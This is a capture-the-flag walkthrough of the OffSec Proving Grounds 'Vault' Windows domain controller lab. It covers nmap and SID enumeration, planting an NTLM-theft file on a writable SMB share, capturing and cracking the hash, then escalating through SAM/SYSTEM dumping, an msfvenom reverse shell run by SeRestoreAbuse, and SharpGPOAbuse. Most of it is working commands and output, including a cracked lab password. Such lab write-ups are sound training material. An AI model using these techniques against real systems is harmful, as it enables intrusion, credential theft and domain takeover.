


Info:
IP: 192.168.157.172
OS:
Domain: vault.offsec

Links:
```bash
https://medium.com/@Dpsypher/proving-grounds-practice-vault-158516460860
https://aditya-3.gitbook.io/oscp/readme/walkthroughs/pg-practice/vault
```
Standard enum:

# NMAP
```bash
nmap -p- -sCV 192.168.157.172 --open
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-10 20:23 EDT
Nmap scan report for 192.168.157.172
Host is up (0.044s latency).
Not shown: 65514 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-10-11 00:25:02Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: vault.offsec0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2025-10-11T00:26:31+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: VAULT
|   NetBIOS_Domain_Name: VAULT
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: vault.offsec
|   DNS_Computer_Name: DC.vault.offsec
|   DNS_Tree_Name: vault.offsec
|   Product_Version: 10.0.17763
|_  System_Time: 2025-10-11T00:25:51+00:00
| ssl-cert: Subject: commonName=DC.vault.offsec
| Not valid before: 2025-10-10T00:19:57
|_Not valid after:  2026-04-11T00:19:57
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49676/tcp open  msrpc         Microsoft Windows RPC
49681/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
49830/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-10-11T00:25:52
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

# Worth checking:
```bash
139, 445 - smb
389, 636, 3268, 3269 - LDAP
5985 - WinRM
9389 - ?
```

Lets try to enum users with LDAP:
```bash
impacket-lookupsid guest@vault.pgp -no-pass

Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at vault.pgp
[*] StringBinding ncacn_np:vault.pgp[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-537427935-490066102-1511301751
498: VAULT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VAULT\Administrator (SidTypeUser)
501: VAULT\Guest (SidTypeUser)
502: VAULT\krbtgt (SidTypeUser)
512: VAULT\Domain Admins (SidTypeGroup)
513: VAULT\Domain Users (SidTypeGroup)
514: VAULT\Domain Guests (SidTypeGroup)
515: VAULT\Domain Computers (SidTypeGroup)
516: VAULT\Domain Controllers (SidTypeGroup)
517: VAULT\Cert Publishers (SidTypeAlias)
518: VAULT\Schema Admins (SidTypeGroup)
519: VAULT\Enterprise Admins (SidTypeGroup)
520: VAULT\Group Policy Creator Owners (SidTypeGroup)
521: VAULT\Read-only Domain Controllers (SidTypeGroup)
522: VAULT\Cloneable Domain Controllers (SidTypeGroup)
525: VAULT\Protected Users (SidTypeGroup)
526: VAULT\Key Admins (SidTypeGroup)
527: VAULT\Enterprise Key Admins (SidTypeGroup)
553: VAULT\RAS and IAS Servers (SidTypeAlias)
571: VAULT\Allowed RODC Password Replication Group (SidTypeAlias)
572: VAULT\Denied RODC Password Replication Group (SidTypeAlias)
1000: VAULT\DC$ (SidTypeUser)
1101: VAULT\DnsAdmins (SidTypeAlias)
1102: VAULT\DnsUpdateProxy (SidTypeGroup)
1103: VAULT\anirudh (SidTypeUser)
```

Now maybe enum4linux
```bash
$ enum4linux-ng vault.pgp  
```

nothing special, check smb
```bash
crackmapexec smb vault.pgp -u 'quest' -p ''  --shares

SMB         vault.pgp       445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:False)
SMB         vault.pgp       445    DC               [+] vault.offsec\quest: 
SMB         vault.pgp       445    DC               [+] Enumerated shares
SMB         vault.pgp       445    DC               Share           Permissions     Remark
SMB         vault.pgp       445    DC               -----           -----------     ------
SMB         vault.pgp       445    DC               ADMIN$                          Remote Admin
SMB         vault.pgp       445    DC               C$                              Default share
SMB         vault.pgp       445    DC               DocumentsShare  READ,WRITE      
SMB         vault.pgp       445    DC               IPC$            READ            Remote IPC
SMB         vault.pgp       445    DC               NETLOGON                        Logon server share 
SMB         vault.pgp       445    DC               SYSVOL                          Logon server share 
```
Bingo!

lets generate some files for upload

```bash
python3 ntlm_theft.py -g all -s 192.168.45.236 --filename odin
```

it gave us plenty of files: 


but we can always use:
```brash
file created:

Random_nonsense
WorkingDirectory=Flibertygibbit
IconFile=\\192.168.45.236\%USERNAME%.icon
IconIndex=1
```

Now lets connect:
```bash
impacket-smbclient quest@vault.pgp 
```


Once uploaded we need to start responder:
```bash
sudo responder -I tun0 -wv 
```

And bum! we have this:


We can use john or hashcat:
```bash
hashcat -m 5600 anirudh.hash /usr/share/wordlists/rockyou.txt --force --potfile-disable

john  -w="/usr/share/wordlists/rockyou.txt" anirudh.hash 

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
SecureHM         (anirudh)     
1g 0:00:00:03 DONE (2025-10-11 19:06) 0.2994g/s 3176Kp/s 3176Kc/s 3176KC/s Seifer@14..Schsutar90
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```

We have creds!
```bash
anirudh:SecureHM
```

We have plenty of options:

# SMB
```bash
crackmapexec smb vault.pgp -u 'anirudh' -p 'SecureHM' --shares 
SMB         vault.pgp       445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:vault.offsec) (signing:True) (SMBv1:False)
SMB         vault.pgp       445    DC               [+] vault.offsec\anirudh:SecureHM 
SMB         vault.pgp       445    DC               [+] Enumerated shares
SMB         vault.pgp       445    DC               Share           Permissions     Remark
SMB         vault.pgp       445    DC               -----           -----------     ------
SMB         vault.pgp       445    DC               ADMIN$          READ            Remote Admin
SMB         vault.pgp       445    DC               C$              READ,WRITE      Default share
SMB         vault.pgp       445    DC               DocumentsShare                  
SMB         vault.pgp       445    DC               IPC$            READ            Remote IPC
SMB         vault.pgp       445    DC               NETLOGON        READ            Logon server share 
SMB         vault.pgp       445    DC               SYSVOL          READ            Logon server share 
```

We have port 5985 so we can use EvilWinRM and 3389 so we can use RDP.
RDP failed


Lets check EvilWinRM


Lets connect via EvilWinRM and check our /priv
```bash
evil-winrm -i vault.pgp -u anirudh -p "SecureHM"
```


We can do plenty of things, but I would like to use SeBackupPrivilege.

Create files with:
```bash
reg save hklm\sam sam
reg save hklm\system system
```
FYI. Remember to do it in folder where we cancreate files.


Download files:
```bash
download sam
download system
```

Once everything is in place, one last step to get admin hash:
```bash
impacket-secretsdump -system system -sam sam local
```

Bum!


But my heart is broken:


We go back to anirudh and check:
```
net localgroup 'Remote Desktop Users'

net localgroup 'Remote Management Users'
```


All clear, only Anirudh has remote access.

So lets try remote access
Download https://github.com/dxnboy/redteam/blob/master/SeRestoreAbuse.exe :

```bash
SeRestoreAbuse.exe
xct - Abuse SeRestorePriviledge - SeRestoreAbuse
SeRestoreAbuse.exe "cmd /c ..."
SeRestoreAbuse.exe "cmd /c C:\temp\rshell.exe"
```
SeRestore abuse will use our revshell to boost our priv.
Our rev shell:

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.236 LPORT=1337 -f exe -o rev.exe 
```

Now use it:
*Evil-WinRM* PS C:\Users\anirudh\Documents> .\SeRestoreAbuse.exe C:\Users\anirudh\Documents\rev.exe


We git it!


Alternative option (Powerview.ps1):

```bash
*Evil-WinRM* PS C:\Users\anirudh\Documents> .\powerview.ps1
*Evil-WinRM* PS C:\Users\anirudh\Documents> Get-GPO -Name "Default Domain Policy"
```



copy ID: 31b2f340-016d-11d2-945f-00c04fb984f9

```bash
Get-GPPermission -Guid 31b2f340-016d-11d2-945f-00c04fb984f9 -TargetType User -TargetName anirudh
```



So we will abuse GPO (Absolute power!)
Download: https://github.com/byronkg/SharpGPOAbuse
Run:
```bash
 .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"
```


Force policy update:
```bash
gpupdate /force
```


check:
```bash
 net localgroup administrators
```


And we are there!